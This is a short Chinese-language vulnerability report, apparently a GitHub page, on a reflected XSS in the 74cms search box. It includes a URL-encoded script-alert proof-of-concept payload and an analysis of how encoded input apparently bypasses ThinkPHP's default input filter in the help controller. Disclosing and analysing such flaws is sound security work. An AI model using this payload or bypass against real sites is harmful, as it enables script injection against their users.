




74cms前台搜索框存在反射型xss漏洞

地址：

```
http://localhost/index.php?m=&c=help&a=index
```



poc：

```
%3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```




代码分析：

定位c=help ==》helpcontroller.class.php

方法为help_list

```
public function help_list(){
        $_GET['key'] = I('request.key','','trim');
        if (!M('Help')->autoCheckToken($_POST)){
            $this->error("验证错误！");
        }
        $this->display();
    }
```

这里仅仅是用到了trim完全不足以过滤，跟进I方法，这是ThinkPHP原生的方法类似于input

```
 if(''==$name) { // 获取全部变量
        $data       =   $input;
        $filters = isset($filter) ? $filter.','.C('DEFAULT_FILTER') : C('DEFAULT_FILTER');
        //$filters    =   isset($filter)?$filter:C('DEFAULT_FILTER');
        if($filters) {
            if(is_string($filters)){
                $filters    =   explode(',',$filters);
            }
```

存在过滤，跟进DEFAULT_FILTER，发现



全局默认是存在过滤方法

输入

```
<script>alert(1)</script>
```

被转义为


```
输入 %3Cscript%3Ealert(%2Fss%2F)%3C%2Fscript%3E
```

直接则跳过了thinkphp的检测，直接通过$_GET['key']传入了

验证：

```
%3Cscript%3E alert(%2Fss%2F) %3C%2Fscript%3E
```

查看js



空格都没有被过滤

安全的流程--》用户输入--》(I函数过滤)thinkPHP默认检测--》安全

不安全的流程--》编码--》服务器解码--》$_GET直接访问